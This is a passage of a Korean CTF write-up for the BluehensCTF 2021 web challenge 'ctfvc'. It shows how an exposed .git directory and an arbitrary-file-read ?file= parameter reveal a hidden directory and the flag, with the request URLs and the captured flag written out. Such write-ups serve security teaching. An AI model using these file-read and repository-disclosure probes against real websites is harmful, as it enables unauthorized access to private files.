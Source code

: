
	어떠한 정보를 얻기위해 ``.git/`` 디렉토리에 접근하면

	``http://challenges.ctfd.io:30595/.git/``

	![.git directory Forbidden](/post-images/BluehensCTF/2021/WEB/ctfvc/Forbidden-git.png)

	이렇게 403 Forbidden 권한 에러가 뜨면서 ``.git/`` 디렉토리가 존재하는것을 볼 수 있습니다.

	해당 git 디렉토리에서 정보를 탈취하기 위해

	``http://challenges.ctfd.io:30595?file=/.git/COMMIT_EDITMSG``  이렇게 접근하면

	``not including flag directory 1a2220dd8c13c32e in the version control system`` 이렇게 ``1a2220dd8c13c32e`` 디렉토리를 포함시키지 않는다는 것을 보고 

	``http://challenges.ctfd.io:30595/1a2220dd8c13c32e/``  ``1a2220dd8c13c32e`` 디렉토리에 접근해보면

	![1a2220dd8c13c32e directory Forbidden](/post-images/BluehensCTF/2021/WEB/ctfvc/Forbidden-git.png)

	``.git/`` 처럼 Forbidden 권한 에러가 나오는것을 보고 존재하는 디렉토리라는것을 파악 할 수 있습니다.

	해당 디렉토리에 중요한 정보가 들어있어서 포함 시키지 않는다는것으로 예측하고

	``http://challenges.ctfd.io:30595?file=/1a2220dd8c13c32e/flag.txt`` 이런식으로 접근해보면 정상적으로 FLAG를 탈취할 수 있게 됩니다.

	![Get Flag](/post-images/BluehensCTF/2021/WEB/ctfvc/Get-Flag.png)

``Flag is UDCTF{h4h4_suck3rs_i_t0tally_l0ck3d_th1s_down}``

## speedrun-1
